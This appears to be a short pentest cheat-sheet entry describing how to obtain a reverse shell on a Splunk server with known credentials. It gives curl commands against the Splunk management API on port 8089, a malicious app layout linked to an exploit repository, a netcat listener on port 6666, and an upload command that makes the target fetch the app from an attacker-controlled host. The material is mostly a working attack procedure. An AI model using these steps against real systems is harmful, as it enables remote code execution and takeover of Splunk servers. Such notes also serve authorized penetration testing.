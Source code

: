 # splunk

## splunk app: reverse shell

Prerequisite: user:password

Steps:

1. Find the endpoint

        $ curl -k -X GET -u <user>:<password> https://<ip>:8089/services/apps/
        <?xml version="1.0" encoding="UTF-8"?>
            <generator build="XXX" version="8.0.5"/>
            <author>
              <name>Splunk</name>
            </author>
            ...
            <link href="/services/apps//local/_new" rel="create"/>
            <link href="/services/apps//local" rel="list"/>
            <link href="/services/apps//local/_reload" rel="_reload"/>
            ...

        $ curl -k -X GET -u <user>:<password> https://<ip>:8089/services/apps//local/_new
        <?xml version="1.0" encoding="UTF-8"?>
            ...
            <s:key name="write">
              <s:list>
                <s:item>admin</s:item>
                <s:item>splunk-system-role</s:item>
              </s:list>
            </s:key>
            ...

2. Define the app

        # https://github.com/binarytrails/pentest/tree/master/src/exploits/multiple/splunk/splunk_app_rshell
        splunk_app_rshell/
        ├── bin
        │   └── code.py
        └── default
            └── inputs.conf

3. Start listeners

        python -m http.server 8080  # to deliver the app.tar.gz
        nc -l -v -p 6666            # for a reverse shell connection

4. Upload the app

        $ tar -zcvf splunk_app.tar.gz ./splunk_app_rshell
        $ curl -k -X POST -u <user>:<password> https://<ip>:8089/services/apps//local \
            -d filename=True \
            -d name=http://<attacker-ip>:8080/splunk_app.tar.gz \
            -d visible=True

